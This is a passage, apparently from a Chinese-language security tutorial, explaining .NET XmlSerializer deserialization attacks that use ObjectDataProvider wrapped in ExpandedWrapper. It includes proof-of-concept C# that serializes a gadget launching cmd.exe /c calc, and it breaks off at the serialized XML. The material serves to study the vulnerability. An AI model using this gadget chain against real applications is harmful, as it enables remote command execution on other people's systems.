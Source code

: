 ```c#
            }
        }
    }
```
在`InvokeMethodOnInstance`将会调用指定方法
```c#
private object InvokeMethodOnInstance(out Exception e)
{
    object result = null;
    string text = null;
    e = null;
    object[] array = new object[_methodParameters.Count];
    _methodParameters.CopyTo(array, 0);
    try
    {
        result = _objectType.InvokeMember(MethodName, BindingFlags.Instance | BindingFlags.Static | BindingFlags.Public | BindingFlags.FlattenHierarchy | BindingFlags.InvokeMethod | BindingFlags.OptionalParamBinding, null, _objectInstance, array, CultureInfo.InvariantCulture);
    }
	...
}
```
也就是说`MethodName`变量的`set`访问器被触发时会调用`objectInstance`变量所指向对下个你的指定方法，方法名为`methodName`变量的值，参数为`MethodParameters`。  
`XmlSerializer`类在反序列化`xml`的时候会构造`ObjectDataProvider`对象，在对象构造的过程中会调用到其成员变量的`set`访问器为成员变量赋值从而触发命令执行。
只是这样是不够的，因为`ObjectDataProvider`对象并不能被`XmlSerializer`序列化。这个时候就需要`ExpandedWrapper`对`ObjectDataProvider`进行包装，另外即便`ObjectDataProvider`被包装后也是不能成功序列化的，  
因为`ObjectProvider`的成员变量`ObjectInstance`是一个`Process`对象，因为该对象是不能被`XmlSerializer`序列化的。  
我们可以先对命令执行的方法进行一下封装让其能够被序列化方便测试。  
代码如下：  
```c#
[XmlRoot]
public class ProcessT
{
	public void exec()
	{
		Process process = new Process();
		process.StartInfo.FileName = "cmd.exe";
		process.StartInfo.Arguments = "/c calc";
		process.Start();
	}
}
class Program
    {
        static void Main(string[] args)
        {
            ExpandedWrapper<ProcessT, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<ProcessT, ObjectDataProvider>();
            ObjectDataProvider object_data_provider = new ObjectDataProvider();
            object_data_provider.MethodName = "exec";
            object_data_provider.ObjectInstance = new ProcessT();
            expandedWrapper.ProjectedProperty0 = object_data_provider;
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<ProcessT, ObjectDataProvider>));
            TextWriter text_writer = new StreamWriter(@"test.xml");
            xml.Serialize(text_writer, expandedWrapper);
            text_writer.Close();
        }
    }
``` 
这样被封装后就解决了`Process`不能被序列化的问题，那么`ExpandedWrapper`是如何解决`ObjectDataprovider`不能被序列化的问题的呢？  
在`test.xml`中序列化的数据为  
```Xml
<?xml version="1.0" encoding="utf-8"?>
```